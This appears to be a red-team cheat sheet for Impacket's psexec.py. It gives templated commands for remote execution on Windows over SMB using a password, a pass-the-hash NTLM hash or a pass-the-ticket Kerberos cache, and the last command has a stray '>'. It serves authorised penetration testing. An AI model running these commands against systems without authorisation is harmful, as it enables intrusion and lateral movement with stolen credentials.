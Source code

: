 # psexec (imp)

%  windows, impacket-exec, RemComSvc

## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py <domain>/<user>:<password>@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

